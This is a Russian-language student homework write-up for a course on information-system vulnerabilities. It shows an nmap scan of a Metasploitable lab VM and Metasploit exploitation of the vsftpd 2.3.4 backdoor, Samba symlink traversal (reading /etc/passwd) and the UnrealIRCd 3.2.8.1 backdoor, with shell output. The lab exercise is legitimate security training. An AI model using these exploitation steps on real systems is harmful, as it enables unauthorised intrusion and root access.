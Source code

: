 Домашнее задание к занятию «Уязвимости и атаки на информационные системы»
Инструкция по выполнению домашнего задания
1.	Сделайте fork репозитория c шаблоном решения к себе в Github и переименуйте его по названию или номеру занятия, например, https://github.com/имя-вашего-репозитория/gitlab-hw или https://github.com/имя-вашего-репозитория/8-03-hw).
2.	Выполните клонирование этого репозитория к себе на ПК с помощью команды git clone.
3.	Выполните домашнее задание и заполните у себя локально этот файл README.md:
o	впишите вверху название занятия и ваши фамилию и имя;
o	в каждом задании добавьте решение в требуемом виде: текст/код/скриншоты/ссылка;
o	для корректного добавления скриншотов воспользуйтесь инструкцией «Как вставить скриншот в шаблон с решением»;
o	при оформлении используйте возможности языка разметки md. Коротко об этом можно посмотреть в инструкции по MarkDown.
4.	После завершения работы над домашним заданием сделайте коммит (git commit -m "comment") и отправьте его на Github (git push origin).
5.	Для проверки домашнего задания преподавателем в личном кабинете прикрепите и отправьте ссылку на решение в виде md-файла в вашем Github.
6.	Любые вопросы задавайте в чате учебной группы и/или в разделе «Вопросы по заданию» в личном кабинете.
Желаем успехов в выполнении домашнего задания.
________________________________________
Задание 1
Скачайте и установите виртуальную машину Metasploitable: https://sourceforge.net/projects/metasploitable/.
Это типовая ОС для экспериментов в области информационной безопасности, с которой следует начать при анализе уязвимостей.
Просканируйте эту виртуальную машину, используя nmap.
Попробуйте найти уязвимости, которым подвержена эта виртуальная машина.
Сами уязвимости можно поискать на сайте https://www.exploit-db.com/.
Для этого нужно в поиске ввести название сетевой службы, обнаруженной на атакуемой машине, и выбрать подходящие по версии уязвимости.
Ответьте на следующие вопросы:
•	Какие сетевые службы в ней разрешены?
•	Какие уязвимости были вами обнаружены? (список со ссылками: достаточно трёх уязвимостей)
Приведите ответ в свободной форме.


Ответ 1
nmap -A 192.168.65.60
Starting Nmap 7.80 ( https://nmap.org ) at 2024-09-18 14:44 MSK
Nmap scan report for 192.168.65.60
Host is up (0.010s latency).
Not shown: 977 closed ports
PORT 	STATE SERVICE 	VERSION
21/tcp   open  ftp     	vsftpd 2.3.4
22/tcp   open  ssh     	OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
23/tcp   open  telnet  	Linux telnetd
25/tcp   open  smtp    	Postfix smtpd
|_smtp-commands: metasploitable.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
|_ssl-date: 2024-09-18T11:44:43+00:00; 0s from scanner time.
| sslv2:
|   SSLv2 supported
|   ciphers:
| 	SSL2_DES_192_EDE3_CBC_WITH_MD5
| 	SSL2_DES_64_CBC_WITH_MD5
| 	SSL2_RC4_128_EXPORT40_WITH_MD5
| 	SSL2_RC2_128_CBC_WITH_MD5
| 	SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|_	SSL2_RC4_128_WITH_MD5
53/tcp   open  domain  	ISC BIND 9.4.2
| dns-nsid:
|_  bind.version: 9.4.2
80/tcp   open  http    	Apache httpd 2.2.8 ((Ubuntu) DAV/2)
|_http-server-header: Apache/2.2.8 (Ubuntu) DAV/2
|_http-title: Metasploitable2 - Linux
111/tcp  open  rpcbind 	2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp  open  exec    	netkit-rsh rexecd
513/tcp  open  login   	OpenBSD or Solaris rlogind
514/tcp  open  tcpwrapped
1099/tcp open  java-rmi	GNU Classpath grmiregistry
1524/tcp open  bindshell   Metasploitable root shell
2049/tcp open  nfs     	2-4 (RPC #100003)
2121/tcp open  ftp     	ProFTPD 1.3.1
3306/tcp open  mysql   	MySQL 5.0.51a-3ubuntu5
| mysql-info:
|   Protocol: 10
|   Version: 5.0.51a-3ubuntu5
|   Thread ID: 9
|   Capabilities flags: 43564
|   Some Capabilities: SupportsCompression, SwitchToSSLAfterHandshake, SupportsTransactions, Speaks41ProtocolNew, ConnectWithDatabase, Support41Auth, LongColumnFlag
|   Status: Autocommit
|_  Salt: b+M#bI&~jzE)<1!ONv*j
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
|_ssl-date: 2024-09-18T11:44:43+00:00; 0s from scanner time.
5900/tcp open  vnc     	VNC (protocol 3.3)
| vnc-info:
|   Protocol version: 3.3
|   Security types:
|_	VNC Authentication (2)
6000/tcp open  X11     	(access denied)
6667/tcp open  irc     	UnrealIRCd
| irc-info:
|   users: 1
|   servers: 1
|   lusers: 1
|   lservers: 0
|   server: irc.Metasploitable.LAN
|   version: Unreal3.2.8.1. irc.Metasploitable.LAN
|   uptime: 0 days, 0:03:17
|   source ident: nmap
|   source host: 1FA191B.B2C57017.FFFA6D49.IP
|_  error: Closing Link: dzuaugkof[192.168.65.99] (Quit: dzuaugkof)
8009/tcp open  ajp13   	Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8180/tcp open  http    	Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/5.5
Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_nbstat: NetBIOS name: METASPLOITABLE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
|_smb-security-mode: ERROR: Script execution failed (use -d to debug)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.31 seconds


Разрешены службы
Service и Version

nmap -sV 192.168.65.60
Starting Nmap 7.80 ( https://nmap.org ) at 2024-09-18 14:53 MSK
Nmap scan report for 192.168.65.60
Host is up (0.0013s latency).
Not shown: 977 closed ports
PORT 	STATE SERVICE 	VERSION
21/tcp   open  ftp     	vsftpd 2.3.4
22/tcp   open  ssh     	OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet  	Linux telnetd
25/tcp   open  smtp    	Postfix smtpd
53/tcp   open  domain  	ISC BIND 9.4.2
80/tcp   open  http    	Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp  open  rpcbind 	2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp  open  exec    	netkit-rsh rexecd
513/tcp  open  login
514/tcp  open  tcpwrapped
1099/tcp open  java-rmi	GNU Classpath grmiregistry
1524/tcp open  bindshell   Metasploitable root shell
2049/tcp open  nfs     	2-4 (RPC #100003)
2121/tcp open  ftp     	ProFTPD 1.3.1
3306/tcp open  mysql   	MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc     	VNC (protocol 3.3)
6000/tcp open  X11     	(access denied)
6667/tcp open  irc     	UnrealIRCd
8009/tcp open  ajp13   	Apache Jserv (Protocol v1.3)
8180/tcp open  http    	Apache Tomcat/Coyote JSP engine 1.1
Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.73 seconds

№1 порт 21 - vsftpd 2.3.4 
sudo service postgresql start
service postgresql status
sudo msfdb init
sudo msfconsole
db_status
search vsftpd 2.3.4
hosts -a 192.168.65.60
hosts
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS a 192.168.65.60
exploit

whoami
root
hostname
metasploitable
hostname -i
127.0.1.1
exit
[*] 192.168.65.60- Command shell session 1 closed.

№2 - порт 445 - samba_symlink_traversal

smbclient -L //192.168.65.60
search samba traversal
Matching Modules
================

   #  Name                                         Disclosure Date  Rank    Check  Description
   -  ----                                         ---------------  ----    -----  -----------
   0  auxiliary/admin/smb/samba_symlink_traversal                   normal  No     Samba Symlink Directory Traversal

use 0
show options
set RHOSTS 192.168.65.60
set SMBSHARE tmp
show options
exploit
smbclient //192.168.65.60/tmp

[*] exec: smbclient //192.168.65.60/tmp
Password for [WORKGROUP\root]:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> cd rootfs
smb: \rootfs\> cd etc
smb: \rootfs\etc\> more passwd

getting file \rootfs\etc\passwd of size 1581 as /tmp/smbmore.paJSIb (308.8 KiloBytes/sec) (average 308.8 KiloBytes/sec)
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
dhcp:x:101:102::/nonexistent:/bin/false
syslog:x:102:103::/home/syslog:/bin/false
klog:x:103:104::/home/klog:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
msfadmin:x:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
bind:x:105:113::/var/cache/bind:/bin/false
postfix:x:106:115::/var/spool/postfix:/bin/false
ftp:x:107:65534::/home/ftp:/bin/false
postgres:x:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
mysql:x:109:118:MySQL Server,,,:/var/lib/mysql:/bin/false
tomcat55:x:110:65534::/usr/share/tomcat5.5:/bin/false
distccd:x:111:65534::/:/bin/false
user:x:1001:1001:just a user,111,,:/home/user:/bin/bash
service:x:1002:1002:,,,:/home/service:/bin/bash
telnetd:x:112:120::/nonexistent:/bin/false
proftpd:x:113:65534::/var/run/proftpd:/bin/false
statd:x:114:65534::/var/lib/nfs:/bin/false

exit












№3 - порт 6667 - UnrealIRCd 3.2.8.1
search UnrealIRCd
Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/unix/irc/unreal_ircd_3281_backdoor  2010-06-12       excellent  No     UnrealIRCD 3.2.8.1 Backdoor Command Execution

use exploit/unix/irc/unreal_ircd_3281_backdoor
show options
set RHOSTS 192.168.65.60
run
exploit
set target 0
exploit
show payloads
set payload 0
exploit
[*] Command shell session 2 opened (192.168.65.59:33973 -> 192.168.65.60:4444) at 2024-09-19 15:07:48 +0300
uname
Linux
hostname
metasploitable

